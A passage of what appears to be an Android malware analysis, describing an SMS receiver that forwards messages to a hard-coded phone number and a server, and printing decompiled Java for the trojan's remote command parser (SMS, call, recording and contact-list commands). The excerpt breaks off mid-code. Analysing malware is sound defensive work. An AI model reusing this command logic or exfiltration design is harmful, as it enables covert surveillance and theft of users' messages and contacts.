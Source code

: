 and each one launches an asynchronous task, specific to each possible layout. If we look at the `res/layout` folder, we can see that these layouts are more than 50!. It also explains
why the `onCreate` contains so many nested blocks. We'll get back to it later.

## SMS Receiver

The routine `SmsReciever.onReceive` is quite complicated, so let's make a simple overview:

![exfil_sms](exfil_sms.png)

Names are misleading here, but we can see that SMS are forwarded to `em.a`, a hard-coded phone number: **+79067075145**, and sent to a server.

In this class `em`, we can also find this routine, which looks like a command parser:

> ```java
>private static int a(String paramString){
>	if (paramString.startsWith("sms start"))
>		return 1;
>	if (paramString.equalsIgnoreCase("sms stop".toString()))
>		return 2;
>	if (paramString.equalsIgnoreCase("call start".toString())){
>		b = jdField_a_of_type_JavaLangString;
>		return 3;
>	}
>	if (paramString.equalsIgnoreCase("call stop".toString())){
>		b = jdField_a_of_type_JavaLangString;
>		return 4;
>	}
>	if (paramString.indexOf("change num") == 0){
>		jdField_a_of_type_JavaLangString = paramString.substring(paramString.lastIndexOf(" ") + 1);
>		AService.a();
>		return -1;
>	}
>	if (paramString.indexOf("call start") == 0){
>		b = paramString.substring(paramString.lastIndexOf(" ") + 1);
>		return 3;
>	}
>	if (paramString.equalsIgnoreCase("sms list".toString()))
>		return 5;
>	if (paramString.equalsIgnoreCase("call list".toString()))
>		return 6;
>	if (paramString.equalsIgnoreCase("start record".toString()))
>		return 7;
>	if (paramString.equalsIgnoreCase("stop record".toString()))
>		return 8;
>	if (paramString.indexOf("sendSMS") == 0)
>		return 9;
>	if (paramString.equalsIgnoreCase("contact list".toString()))